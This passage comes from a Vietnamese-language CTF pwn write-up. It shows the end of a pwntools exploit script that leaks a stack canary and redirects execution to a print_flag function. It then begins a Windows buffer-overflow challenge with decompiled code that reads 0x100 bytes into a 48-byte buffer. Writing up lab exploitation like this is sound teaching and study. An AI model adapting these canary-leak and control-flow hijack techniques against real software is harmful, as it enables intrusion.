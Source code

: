 ```python

p.sendlineafter(b'>> ',b'push 1')
p.sendlineafter(b'>> ',b'push 29')
p.sendlineafter(b'>> ',b'show')

p.recvuntil(b'Stack top: ')
canary = int(p.recvline()[:-1])
canary = hex(canary & (2**64 -1))
canary = int(canary,16)
print(canary)

p.sendlineafter(b'>> ',b'push 0')
p.sendlineafter(b'>> ',f'push {exe.sym.print_flag}')
p.sendlineafter(b'>> ',b'exit')


p.interactive()
```

![image](https://hackmd.io/_uploads/Bk1Wo6DPkl.png)

-----------

## 窗戶麵包


bài này sẽ là 1 bài ```bof``` window , mình chưa làm pwn window bao giờ , tuy nhiên thì bài này ở mức dễ nên ta có thể làm tương tự pwn linux , và bài này khá giống 1 bài blog của tác giả luôn , nó chỉ thêm đoạn check thôi , ta có thể xem ở đây : https://kazma.tw/2024/11/18/AngelBoy-Windows-Binary-Exploitation-bofeasy-Writeup/
![image](https://hackmd.io/_uploads/B1kXoaDPyx.png)


- nhìn vào bài thì đầu tiên nó sẽ leak hàm ```main``` sẵn cho ta luôn , tiếp theo là có 1 bug ```bof``` ở trước mặt =)))


```
__int64 __fastcall main()
{
  FILE *v0; // rax
  char buf[48]; // [rsp+20h] [rbp-30h] BYREF

  _main();
  v0 = __acrt_iob_func(1u);
  setvbuf(v0, 0LL, 4, 0LL);
  printf("Something important: %p\n", main);
  puts("Can you get the flag?");
  _read(0, buf, 0x100u);
  return 0LL;
}
```
